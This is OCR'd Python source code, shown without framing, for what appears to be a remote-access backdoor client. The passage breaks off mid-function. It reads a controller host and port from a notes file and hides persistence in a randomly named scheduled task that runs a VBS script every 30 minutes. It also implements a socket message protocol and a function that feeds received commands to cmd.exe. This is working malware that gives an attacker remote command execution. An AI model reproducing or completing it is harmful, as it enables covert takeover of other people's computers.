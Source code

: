 ```
with open(CURRENT_FILE_DIRECTORY + "notes.txt", 'r') as f:
    notes = [line.rstrip() for line in f]
HOST = notes[0]
PORT = int(notes[1])
if win_client():
    tmp_dir = 'C:/Windows/Temp/'
else:
    tmp_dir = '/tmp/'
def task_registration():
    time.sleep(5)
    runner_path = CURRENT_FILE_DIRECTORY + "runner.bat"
    vbs_path = CURRENT_FILE_DIRECTORY + "bg.vbs"
    task_query_result = subprocess.run(['schtasks', '/query'], stdout=subprocess.PIPE)
    task_find_result = subprocess.run(['findstr', 'paurora*'], input=task_query_result.stdout, stdout=subprocess.PIPE)
    if task_find_result.stdout.decode().strip() == "":
        with open(CURRENT_FILE_DIRECTORY + "bg.txt", 'r') as file:
            content = file.read()
            content = content.replace("$runnerPath$", runner_path)
        with open(vbs_path, "w") as text_file:
            text_file.write(content)
        task_name = "paurora" + str(randint(0, 10000))
        subprocess.run(['schtasks', '/create', '/sc', 'DAILY', '/tn', task_name,
                        '/tr', "wscript '{}'".format(vbs_path), '/st', '00:01',
                        '/ri', '30', '/du', '24:00'])
if win_client():
    taskThread = Thread(target=task_registration)
    taskThread.start()
def mp_recvall_buffer(client, buf: bytearray, count):
    view = memoryview(buf)
    while count:
        read_bytes = client.recv_into(view, count)
        if read_bytes == 0:
            raise Exception("Connection closed")
        view = view[read_bytes:]
        count -= read_bytes
def mp_recvall(client, count: int):
    buf = bytearray(count)
    mp_recvall_buffer(client, buf, len(buf))
    return buf
def mp_receive_message(client):
    message_id = mp_receive_long(client)
    message_len = int.from_bytes(mp_recvall(client, 4), byteorder='big')
    message = mp_recvall(client, message_len)
    message = message.decode()
    message = deserialize_json(message)
    return {'id': message_id, 'message': message}
def mp_receive_long(client):
    return int.from_bytes(mp_recvall(client, 8), byteorder='big')
def mp_send_message(client, message_id, message):
    message_json = serialize_json(message)
    message_json = message_json.encode()
    message_id_bytes = int.to_bytes(message_id, 8, byteorder='big')
    message_len = len(message_json)
    message_len_bytes = int.to_bytes(message_len, 4, byteorder='big')
    client.sendall(message_id_bytes)
    client.sendall(message_len_bytes)
    client.sendall(message_json)
def run_command(command):
    process = subprocess.Popen(["cmd.exe", "/K", "chcp", "65001"], shell=True, stdout=subprocess.PIPE,
                               stdin=subprocess.PIPE, stderr=subprocess.PIPE)
    command = command + '\n'
```